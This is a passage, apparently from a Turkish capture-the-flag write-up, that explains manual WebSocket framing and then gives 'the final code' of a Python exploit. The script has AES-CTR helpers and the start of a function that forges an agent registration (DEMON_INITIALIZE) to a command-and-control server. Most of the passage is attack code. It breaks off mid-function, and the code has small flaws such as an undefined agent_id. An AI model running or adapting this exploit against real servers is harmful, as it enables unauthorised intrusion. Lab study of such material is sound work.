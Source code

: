 WebSocket iletişimi kullanıldığından, gönderilen verilerin WebSocket formatına dönüştürülmesi gerekir. Python’un standart kütüphanesi bu işlemleri otomatik olarak yönetir, ancak burada HTTP’den WebSocket’e geçiş yapıldığı için verilerin manuel olarak WebSocket veri çerçevesine (`data frame`) dönüştürülmesi gerekir.

Nihai kod aşağıdaki gibidir

```
import binascii
import json
import random
import requests
import argparse
import urllib3
import os
import hashlib
urllib3.disable_warnings()
 
 
from Crypto.Cipher import AES
from Crypto.Util import Counter
 
key_bytes = 32
 
def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"
 
    assert len(key) == key_bytes
 
    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)
 
    plaintext = aes.decrypt(ciphertext)
    return plaintext
 
 
def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)
 
 
def encrypt(key, iv, plaintext):
 
    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"
 
        assert len(key) == key_bytes
 
        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)
 
        ciphertext = aes.encrypt(plaintext)
        return ciphertext
 
def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id
 
    hostname_length = int_to_bytes(len(hostname))
```